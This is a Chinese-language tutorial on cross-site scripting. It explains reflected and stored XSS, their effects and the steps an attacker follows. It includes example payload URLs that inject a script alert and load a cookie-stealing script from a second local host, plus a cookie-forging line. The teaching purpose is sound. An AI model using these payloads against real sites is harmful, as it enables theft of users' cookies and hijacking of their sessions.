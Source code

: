 ## XSS

Cross Site Scripting（跨站脚本攻击），因为缩写和 CSS 重叠，所以改叫 XSS。跨站脚本攻击是指通过存在安全漏洞的 Web 网址注册用户的浏览器内运行非本站点 HTML 或 JavaScript 进行的一种攻击

跨站脚本攻击可以造成以下影响：

- 利用虚假输入表单骗取用户个人信息

- 利用脚本窃取用户的 Cookie 值，被害者在不知情的情况下，帮助攻击者发送恶意请求

  显示伪造的文章或图片

### XSS 攻击分类

#### 反射型 XSS

- 反射型：url 参数直接注入

  URL 注入非法脚本，然后发送给受害用户

  服务端返回的富文本中包含非法脚本，被直接展示

反射型 XSS 攻击步骤：

1. 攻击者构造出特殊的 URL，其中包含恶意代码
2. 用户打开带有恶意代码的 URL 时，网站服务端将恶意代码从 URL 中取出，拼接在 HTML 中返回给浏览器
3. 用户浏览器接收到响应后解析执行，混在其中的恶意代码也被执行
4. 恶意代码窃取用户数据并发送到攻击者的网站，或者冒充用户的行为，调用目标网站接口执行攻击者指定的操作

```html
<!-- 普通 -->
http://localhost:3000/?from=china

<!-- alert尝试 -->
http://localhost:3000/?from=<script>alert(3)</script>

<!-- 获取Cookie -->
http://localhost:3000/?from=<script src="http://localhost:4000/hack.js"></script>

<!-- 伪造cookie入侵 -->
document.cookie="..."
```

#### 存储型 XSS

- 存储型：存储到 DB 后读取时注入

  发帖中发出包含恶意代码的内容，其它用户访问到该内容后，满足特定条件即触发

  后台不过滤信息，并且前端展示时也不过滤信息

存储型 XSS 的攻击步骤：

1. 攻击者将恶意代码提交到目标网站的数据库中
2. 用户打开网站时，网站服务端将恶意代码从数据库取出，拼接在 HTML 中返回给浏览器
3. 用户浏览器接收到响应后解析执行，混在其中的恶意代码也被执行
4. 恶意代码窃取用户数据并发送到攻击者的网站，或者冒充用户的行为，调用目标网站接口执行攻击者指定的操作
